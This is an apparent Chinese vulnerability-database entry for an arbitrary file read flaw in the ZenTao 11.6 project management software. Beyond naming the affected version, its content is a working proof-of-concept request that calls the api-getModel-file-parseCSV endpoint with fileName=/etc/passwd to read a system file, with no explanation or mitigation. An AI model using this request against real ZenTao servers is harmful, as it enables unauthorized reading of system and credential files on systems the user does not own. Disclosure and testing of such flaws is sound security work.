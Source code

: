 ```yaml
---
title: '禅道11.6任意文件读取.assets'
date: Thu, 17 Sep 2020 01:38:25 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

禅道 11.6

### 漏洞POC

```
http://127.0.0.1/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd 
```



![img](禅道11.6任意文件读取.assets/2020090917060866.png)

